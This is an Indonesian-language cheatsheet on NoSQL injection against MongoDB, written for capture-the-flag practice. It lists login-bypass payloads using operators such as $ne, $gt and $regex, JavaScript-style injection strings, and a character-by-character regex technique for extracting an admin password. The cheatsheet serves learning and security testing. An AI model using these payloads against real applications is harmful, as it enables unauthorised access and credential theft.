 # NoSQL Injection Cheatsheet (CTF)

## Apa itu NoSQL Injection?

NoSQL Injection adalah teknik eksploitasi pada aplikasi yang menggunakan database NoSQL (seperti MongoDB, CouchDB, dsb) dengan cara menyisipkan query berbahaya melalui input user. Tujuannya mirip dengan SQL Injection, yaitu untuk mendapatkan akses tidak sah, bypass login, atau mengakses data sensitif.

---

## Karakteristik NoSQL (MongoDB)

- Tidak menggunakan SQL, tapi JSON-like query.
- Query biasanya dalam bentuk objek (misal: `{ "username": "admin" }`).
- Mendukung operator logika seperti `$ne`, `$gt`, `$lt`, `$in`, `$regex`, dll.

---

## Syntax & Operator Injection

## 1. Operator Penting MongoDB

| Operator | Fungsi                          | Contoh Penggunaan                                                                                          |
| -------- | ------------------------------- | ---------------------------------------------------------------------------------------------------------- |
| `$ne`    | Not Equal (tidak sama dengan)   | `{ "username": { "$ne": "admin" } }`<br>Query user selain admin                                            |
| `$eq`    | Equal (sama dengan)             | `{ "age": { "$eq": 18 } }`<br>Query user dengan age=18                                                     |
| `$gt`    | Greater Than (lebih besar dari) | `{ "age": { "$gt": 18 } }`<br>Query user dengan age>18                                                     |
| `$lt`    | Less Than (lebih kecil dari)    | `{ "age": { "$lt": 18 } }`<br>Query user dengan age<18                                                     |
| `$in`    | Ada di dalam array              | `{ "role": { "$in": ["admin", "user"] } }`<br>Query user dengan role admin/user                            |
| `$nin`   | Tidak ada di dalam array        | `{ "status": { "$nin": ["inactive"] } }`<br>Query user dengan status selain inactive                       |
| `$regex` | Regular Expression (pola)       | `{ "username": { "$regex": ".*ad.*" } }`<br>Query username yang mengandung 'ad'                            |
| `$or`    | Salah satu kondisi benar        | `{ "$or": [ { "username": "admin" }, { "role": "admin" } ] }`<br>Query user username=admin atau role=admin |
| `$and`   | Semua kondisi benar             | `{ "$and": [ { "active": true }, { "age": { "$gt": 18 } } ] }`<br>Query user aktif dan age>18              |

---

## 2. Use Case NoSQL Injection

### Bypass Login & Payload Dasar

- **Bypass login universal:**

  ```json
  {
    "username": { "$ne": null },
    "password": { "$ne": null }
  }
  ```

  Payload:

  - username: `{ "$ne": null }`
  - password: `{ "$ne": null }`

- **Bypass login user tertentu:**

  - username: `admin`
  - password: `{ "$ne": "1" }`

- **Login tanpa password:**

  - username: `admin' || '1'=='1`
  - password: `apapun`

- **Menggunakan $or:**

  - username: `admin" }, "$or": [ {}, { "a":"a`
  - password: `" } ] //`

- **Regex Injection:**

  - username: `admin`
  - password: `{ "$regex": ".*" }`

- **Payload lain:**
  - username: `{ "$gt": "" }`
  - password: `{ "$ne": "" }`
  - username: `admin' && this.password.match(/.*/)//`

---

### Ekstraksi & Brute Force Password

- **Mengetahui panjang password:**

  ```json
  {
    "username": "admin",
    "password": { "$regex": ".{8}" }
  }
  ```

  Jika response berbeda, berarti password admin 8 karakter. Ubah angka untuk brute panjang.

- **Mengecek karakter pertama password:**

  ```json
  {
    "username": "admin",
    "password": { "$regex": "^a.*" }
  }
  ```

  Jika response true, berarti karakter pertama password adalah 'a'.

- **Mengecek karakter kedua password:**

  ```json
  {
    "username": "admin",
    "password": { "$regex": "^.b.*" }
  }
  ```

  Jika response true, berarti karakter kedua password adalah 'b'.

- **Brute force karakter per karakter:**
  Ulangi payload regex dengan kombinasi karakter pada posisi tertentu:

  ```json
  {
    "username": "admin",
    "password": { "$regex": "^.{3}c.*" }
  }
  ```

  Untuk cek karakter ke-4 adalah 'c'.

- **Cek password hanya huruf/angka:**

  ```json
  {
    "username": "admin",
    "password": { "$regex": "^[a-zA-Z0-9]+$" }
  }
  ```

  True jika password hanya terdiri dari huruf/angka.

- **Cek password mengandung string tertentu:**
  ```json
  {
    "username": "admin",
    "password": { "$regex": "flag" }
  }
  ```
  True jika password mengandung kata 'flag'.

---

---

## Tips & Trik NoSQL Injection di CTF

- Coba input JSON, array, dan operator MongoDB.
- Perhatikan error message dan response time.
- Gunakan tools seperti Burp Suite, Postman, atau curl untuk testing.
- Cek apakah aplikasi melakukan sanitasi input.
- Coba kombinasi payload untuk bypass login, enum data, atau dump data.

---

## Referensi

- [PayloadAllTheThings - NoSQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
- [HackTricks - NoSQL Injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection)
- [OWASP - NoSQL Injection](https://owasp.org/www-community/attacks/NoSQL_Injection)

---
